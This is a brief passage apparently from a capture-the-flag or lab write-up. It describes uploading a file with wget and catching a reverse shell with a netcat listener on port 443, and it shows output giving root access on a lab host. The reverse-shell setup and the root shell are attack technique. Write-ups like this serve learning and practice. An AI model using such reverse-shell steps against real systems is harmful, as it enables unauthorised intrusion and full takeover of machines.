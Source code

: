 I then start a listener on 443 and upload the file to the correct directory using wget and... 

```
$ sudo nc -lnvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.183.211.
Ncat: Connection from 10.129.183.211:50436.
id 
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```
That's the game!
